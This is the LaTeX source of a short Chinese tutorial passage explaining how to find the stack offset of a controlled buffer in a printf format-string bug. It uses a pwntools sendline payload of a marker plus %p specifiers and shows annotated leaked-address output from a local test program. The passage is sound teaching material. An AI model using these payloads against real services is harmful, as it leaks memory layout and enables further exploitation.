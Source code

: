 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
印出一堆 \texttt{0x…} 之後，新手通常說不出「哪個是我」。兩種認法：

\textbf{① 標記法（最可靠）}：在格式字串\textbf{最前面}放 8 bytes
好認的標記，然後找那個標記：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{io.sendline(}\StringTok{b\textquotesingle{}AAAABBBB.\textquotesingle{}} \OperatorTok{+} \StringTok{b\textquotesingle{}.\textquotesingle{}}\NormalTok{.join(}\StringTok{b\textquotesingle{}\%p\textquotesingle{}} \ControlFlowTok{for}\NormalTok{ \_ }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{16}\NormalTok{)))}
\CommentTok{\# 在輸出裡找 \textasciigrave{}0x4242424241414141\textasciigrave{}（= 小端的 "AAAABBBB"）}
\CommentTok{\#   印出它的那一格，序號就是「buf[0] 是第幾個參數」}
\end{Highlighting}
\end{Shaded}

實測輸出（本機自己編的 \texttt{printf(buf)}
小程式；\textbf{位址每次執行都不同，看結構就好}）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
AAAABBBB.0x1c9c0011.0x7fff240cff10.0x7f1675218760.0x1c9c0049.(nil).0x4242424241414141.0x252e70252e70252e...
         ^^^^^^^^^^ ^^^^^^^^^^^^^^ ^^^^^^^^^^^^^^ ^^^^^^^^^^ ^^^^^ ^^^^^^^^^^^^^^^^^^
         %1$p       %2$p           %3$p           %4$p       %5$p  %6$p  ← 就是 buf[0]
\end{Verbatim}

（\texttt{\%\allowbreak{}1\$\allowbreak{}}～\texttt{\%\allowbreak{}5\$\allowbreak{}} 印的是暫存器殘值 / 堆疊位址 / libc 位址
/ 程式位址 / \texttt{nil}， \textbf{只有 \texttt{\%\allowbreak{}6\$\allowbreak{}p}
是我們親手放的標記}。）

\textbf{②
直接編號法}：\texttt{b\textquotesingle{}\allowbreak{}\ \allowbreak{}\textquotesingle{}\allowbreak{}.\allowbreak{}join(b\textquotesingle{}\allowbreak{}\%\allowbreak{}\%\allowbreak{}\%\allowbreak{}d\$\allowbreak{}p\textquotesingle{}\allowbreak{}\ \allowbreak{}\%\allowbreak{}\ \allowbreak{}i\ \allowbreak{}for\ \allowbreak{}i\ \allowbreak{}in\ \allowbreak{}range(1,\allowbreak{}\ \allowbreak{}21))}
------ 注意每一格的\textbf{位置}：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
%1$p %2$p %3$p %4$p %5$p %6$p %7$p ...
→   0x1c9c0049 0x7fff240cff10 0x7f1675218760 0x1c9c00b8 (nil) 0x2432252070243125 0x2520702433252070 ...
\end{Verbatim}
\end{document}
